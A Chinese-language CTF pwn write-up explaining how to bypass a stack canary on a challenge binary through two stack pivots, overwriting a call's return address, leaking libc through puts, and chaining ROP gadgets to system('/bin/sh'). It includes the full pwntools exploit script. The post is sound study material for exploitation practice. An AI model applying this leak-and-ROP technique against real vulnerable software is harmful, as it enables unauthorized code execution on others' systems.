 ```yaml
---
title: 有意思的canary
description: 学不懂!
pubDatetime: 2023-06-16
published: true
ogImage: ../../assets/4.png
language: cn
tags:
  - 网络安全
---
```


# 勘误

> 感谢大专老哥，让我一直以来错误的思想完全纠错了过来。
> 不得不说，现在pwn的题目脑洞真的大。
> 连续三次遇到非常规的栈迁移和非常规的格式化字符串。
> 这里给出某战队师傅的锐评
> ![4DA953EC8C163A2B495F1FF649392822.jpg](https://cdn.nlark.com/yuque/0/2023/jpeg/29466846/1686885711487-9d13f091-cc9b-4bc7-a59d-af784ae95253.jpeg#averageHue=%23fdfefe&clientId=uc38eb869-7fe5-4&from=paste&height=219&id=u4a71c358&originHeight=362&originWidth=879&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=61284&status=done&style=none&taskId=u05807259-1efb-4a57-9047-3474d62422f&title=&width=532.7272419364674)

水完这篇就不写了，上线代课的时候，忽然想到自己这里理解错了，虽然也写出来了，之前公众号一篇文章里面的一道题。<br />[声东击西|三道有意思的pwn题](https://mp.weixin.qq.com/s?__biz=Mzg3OTgzNjk4OA==&mid=2247486156&idx=1&sn=7b110b88a9e4645a7884a9461ec0925a&chksm=cf7f209ff808a98958b0c0ccb5b8c85d52de394317037209237c26023ca6247cc3e94101fabf#rd)<br />速度速度，搞完四级。<br />哦对，以后打比赛，写题目，最快的方法就是调试，调到栈上的返回地址啊什么的，为我们想要的，这样就能快速避免出错了！！！也不用去思考究竟便宜多少。一步步rop嘛。分解动作去调试完成。

## 题目

- 本题的重点在于如何绕过canary

![](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686652249303-57682fe4-653a-43c0-8097-c1369adb969d.png#averageHue=%23040403&from=url&id=vJCJr&originHeight=861&originWidth=1553&originalType=binary&ratio=1.5&rotation=0&showTitle=false&status=done&style=none&title=)<br />![](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686652176225-fa5d57de-07da-44ee-b21c-b673c9c9d83a.png#averageHue=%23030202&from=url&id=wQMjg&originHeight=434&originWidth=1237&originalType=binary&ratio=1.5&rotation=0&showTitle=false&status=done&style=none&title=)

## EXP

废话不多说，先看exp<br />![](https://cdn.nlark.com/yuque/0/2023/jpeg/29466846/1686885339882-d9693cf1-927f-4e2a-9b6d-bf2cf999065f.jpeg)

```python

from pwn import *
context.log_level = 'debug'

#io = gdb.debug('./canary')
p = process('./canary')
elf = ELF('./canary')
libc = elf.libc

r = lambda : p.recv()
rl = lambda : p.recvline()
rc = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()
pr = lambda name,x : log.info(name+':'+hex(x))

DEBUG = 0

def debug(bp = None):
    if DEBUG == 1:
        if bp != None:
            gdb.attach(p, bp)
        else:
            gdb.attach(p)


main = 0x401296
main2 = 0x40133f
gift = 0x401258
pop_rdi = 0x4013e3
ret = 0x40101a
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

sla(b"functions?\n", b'0')
s(p64(0x404900) + p64(main))
sla(b"functions?\n", b'0')
s(p64(0x404948) + p64(gift))

payload = p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(gift) + b'a' * 0x28  #+ p64(0x404900)
pause()
s(payload)

libc.address = u64(ru(b'\x7f')[-6:].ljust(8, b'\x00')) - libc.sym['puts']
pr('libc_base', libc.address)
system = libc.sym['system']
binsh = next(libc.search(b'/bin/sh\x00'))
payload = b'a' * 0x18 + p64(pop_rdi) + p64(binsh) + p64(system)
pause()
s(payload)


shell()
```

## 重点：理解ret和call和参数寻址和

- call指令，将当前的地址push进去，也就是说，esp会下移动一个位
- ret指令，将pop当前esp指向的内容到eip，就就是说，esp会上移动一个位
- 参数寻址：不管esp如何，通过ebp定位，也就是说esp负责流程控制，ebp负责数据的定位

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686885420233-5525bfd2-ffe3-4386-9807-f5efac90513a.png#averageHue=%236e6c6a&clientId=uc38eb869-7fe5-4&from=paste&height=188&id=u5a458010&originHeight=310&originWidth=843&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=30215&status=done&style=none&taskId=uadc52cbb-3a29-4e7d-b455-11135c1c6a1&title=&width=510.90906137934246)

## 本题的详细分析

- 通过主main函数的read来覆盖ebp，两次实现栈迁移（注意第一次迁移之后，read写入的位置）
- 通过gift里面call read来写栈的同时，也通过覆盖push进去的eip来绕过canary

### 第一次迁移rbp

```python
sla(b"functions?\n", b'0')
s(p64(0x404900) + p64(main))
```

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686883993243-eebc35dc-10f0-4f8a-8a7c-e92a28b9a4b6.png#averageHue=%23141b1b&clientId=uc38eb869-7fe5-4&from=paste&height=707&id=Yib8l&originHeight=1166&originWidth=1380&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=1417060&status=done&style=none&taskId=u34505aa8-ba76-4ac1-863c-914cab17e41&title=&width=836.3635880231228)<br />![Snipaste_2023-06-16_10-22-42.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686883958742-ab317bbd-87a3-4e1d-b822-f028f17f2054.png#averageHue=%23181f1f&clientId=uc38eb869-7fe5-4&from=paste&height=530&id=u214bde6c&originHeight=875&originWidth=1271&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=646418&status=done&style=none&taskId=u3eabdd65-4b9c-495c-8238-806db1e9211&title=&width=770.3029857807168)

### 第二次迁移rsp，于写目标栈

```python
sla(b"functions?\n", b'0')
s(p64(0x404948) + p64(gift))
```

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686884033596-d7aca4b0-6725-4849-93dc-128893f77a26.png#averageHue=%23151e21&clientId=uc38eb869-7fe5-4&from=paste&height=398&id=ub4090f35&originHeight=656&originWidth=1166&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=892316&status=done&style=none&taskId=u2ff15ac4-1e1c-45bf-9dc4-e6a4d1f5a43&title=&width=706.6666258224357)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686884106541-dad337dc-4e7b-4835-89dd-a002ad17ef34.png#averageHue=%231a2120&clientId=uc38eb869-7fe5-4&from=paste&height=239&id=u50d58987&originHeight=394&originWidth=1280&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=668459&status=done&style=none&taskId=uce52fa95-2abe-48f2-99f3-80c18adfd14&title=&width=775.757530919998)

### 目标栈写rop链同时，覆盖call返回绕过canary

```python
payload = p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(gift) + b'a' * 0x28 + p64(0x404900)
```

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686884151274-bcc2e2ac-f89a-40e1-9dc4-b34c46107d83.png#averageHue=%23141c1a&clientId=uc38eb869-7fe5-4&from=paste&height=467&id=u4a1d2aad&originHeight=771&originWidth=1203&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=1009380&status=done&style=none&taskId=u18872cfc-589d-4972-9894-828e68709a2&title=&width=729.0908669505918)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686884158945-b11da903-6fc8-4cb1-891f-ea819eaac217.png#averageHue=%23172023&clientId=uc38eb869-7fe5-4&from=paste&height=311&id=uef8d7f2e&originHeight=513&originWidth=1362&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=648016&status=done&style=none&taskId=u7cf33ae5-1ef2-4cd2-870e-56d43af3f4e&title=&width=825.4544977445604)

### 成功指向并泄露libc

```python
libc.address = u64(ru(b'\x7f')[-6:].ljust(8, b'\x00')) - libc.sym['puts']
pr('libc_base', libc.address)
system = libc.sym['system']
binsh = next(libc.search(b'/bin/sh\x00'))
```

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686884185201-3fd3742a-b7df-449f-bb25-b246274f9c54.png#averageHue=%2313191b&clientId=uc38eb869-7fe5-4&from=paste&height=776&id=u4acb32e9&originHeight=1280&originWidth=2487&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=3075709&status=done&style=none&taskId=u8887355c-ba1f-4950-a0e2-ef304a47742&title=&width=1507.272640154715)

### 再次覆盖gift里面的call，从而再次绕过canary直接getshell

```python
payload = b'a' * 0x18 + p64(pop_rdi) + p64(binsh) + p64(system)
pause()
s(payload)
shell()
```

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686884236766-1575fc6d-3f44-4ed1-9844-e2b7e7e1a7a0.png#averageHue=%231b2527&clientId=uc38eb869-7fe5-4&from=paste&height=674&id=uaf573afb&originHeight=1112&originWidth=1297&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=1548612&status=done&style=none&taskId=u0d8037a8-6ce0-427a-a22a-d529e832820&title=&width=786.0605606275292)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686884249806-19481e75-6685-4ffd-9be3-563ca5a26a1c.png#averageHue=%230a0e10&clientId=uc38eb869-7fe5-4&from=paste&height=425&id=uf8b2c928&originHeight=701&originWidth=1120&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=640099&status=done&style=none&taskId=u84b27d76-8bf0-4202-81f8-e909b6d1d81&title=&width=678.7878395549983)

## 图解流程

![](https://cdn.nlark.com/yuque/0/2023/jpeg/29466846/1686885386260-da81dac6-df71-46b6-a832-4bb12c9442e9.jpeg)
